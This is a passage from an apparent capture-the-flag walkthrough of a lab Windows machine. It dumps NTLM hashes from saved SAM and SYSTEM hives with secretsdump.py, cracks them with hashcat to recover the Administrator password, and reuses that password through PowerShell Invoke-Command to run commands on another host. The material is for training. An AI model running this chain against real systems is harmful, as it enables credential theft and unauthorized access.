 
#### Get Hashes

I’ll use `secretsdump.py` (part of
[Impacket](https://github.com/SecureAuthCorp/impacket)) to get hashes from
these hives in `LOCAL` mode:

    
    
    oxdf@hacky$ secretsdump.py -sam sam.bak -system sys.bak LOCAL
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation
    
    [*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
    Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
    [*] Cleaning up... 
    

#### Crack

I’ll save the hashes to a file, and use `hashcat` to run `rockyou.txt` over
them:

    
    
    $ /opt/hashcat-6.2.5/hashcat.bin acute-pc01.hashes /usr/share/wordlists/rockyou.txt
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    1000 | NTLM | Operating System
    ...[snip]...
    31d6cfe0d16ae931b73c59d7e0c089c0:                         
    a29f7623fd11550def0192de9246f46b:Password@123  
    ...[snip]...
    

It cracks the empty password for Guest (normal), and “Password@123” for
Administrator.

### Password Reuse

I’ll first test these creds to see if any of the known users can log into
PSWA, but none succeed. I do find that I’m able to run commands on ATSSERVER
as awallace:

    
    
    PS C:\Utils> $pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
    PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
    PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami } 
    acute\awallace
    
